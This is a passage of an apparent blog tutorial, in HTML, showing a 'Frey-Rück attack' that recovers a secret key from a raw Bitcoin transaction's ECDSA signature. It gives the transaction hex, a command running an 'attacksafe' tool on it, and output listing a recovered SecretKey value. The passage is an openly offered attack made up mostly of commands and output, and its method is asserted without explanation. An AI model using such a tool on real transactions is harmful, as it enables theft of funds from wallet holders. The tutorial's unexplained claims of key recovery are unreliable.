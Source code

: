 
<figure class="wp-block-image"><img src="./Implement Frey-Rück Attack to get the secret key_K_NONCE_files/image-39-1024x602.png" alt="Implement Frey-Rück Attack to get the secret key &quot;K&quot; (NONCE)" class="wp-image-954"></figure>



<p>then choose<code>&nbsp;-tool: frey_ruck_attack</code></p>



<p>To get the secret key from a vulnerable ECDSA signing transaction, let’s add the data&nbsp;<code>RawTX</code>to a text document and save it as a file<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<h2>Launch&nbsp;<code>-tool frey_ruck_attack</code>using software<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity">



<pre class="wp-block-code"><code>./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="./Implement Frey-Rück Attack to get the secret key_K_NONCE_files/image-42-1024x261.png" alt="Implement Frey-Rück Attack to get the secret key &quot;K&quot; (NONCE)" class="wp-image-963"></figure>



<p>We launched this attack from&nbsp;<code>-tool frey_ruck_attack</code>and the result was saved to a file<code>SecretKey.txt</code></p>



<p>Now to see the successful result, open the file<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="./Implement Frey-Rück Attack to get the secret key_K_NONCE_files/image-43-1024x487.png" alt="Implement Frey-Rück Attack to get the secret key &quot;K&quot; (NONCE)" class="wp-image-965"></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3

RawTX = 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000</code></pre>
